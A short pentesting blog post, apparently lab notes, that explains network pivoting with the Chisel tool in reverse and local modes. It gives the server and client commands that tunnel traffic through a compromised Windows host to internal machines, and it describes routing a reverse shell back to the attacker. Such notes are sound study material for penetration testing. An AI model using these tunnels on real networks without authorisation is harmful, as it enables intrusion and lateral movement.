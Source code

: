 ```yaml
---
layout: post
title: Pivoting with Chisel
description: Pivoting with Chisel
date: 2022-04-29
Last Updated: 2022-08-11
---
```

# Pivoting with Chisel

## Reverse Pivot

(sends traffic back to kali via tunnel)

Kali -> victim -> network host

* Attack host spins up reverse listener
* Victim sets up tunnel back to listener port on attack box and also links between intermediate client and remote target
* Allows connection from Kali (127.0.0.1:8001) via tunnel to port 80 on remote host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v -reverse
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 R:8001:172.16.163.5:80
```

![](/assets/images/Reverse_Pivot_1.png) ![](/assets/images/Reverse_Pivot_2.png)

## Local Pivot

(sends traffic to client and then back to kali)



Kali > victim < network host

* Attack host spins up listener
* Victim sets up tunnel back to listener port on attack box and also opens listener on localhost
* Hosts can send traffic (rev shell) back to listener on victim which gets directed back to attack host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 9001:127.0.0.1:8001
```

On Remote host execute payload with IP of client and it will get forwarded to attack box

![](/assets/images/Local_Pivot_1.png)![](/assets/images/Local_Pivot_2.png)![](/assets/images/Local_Pivot_3.png)
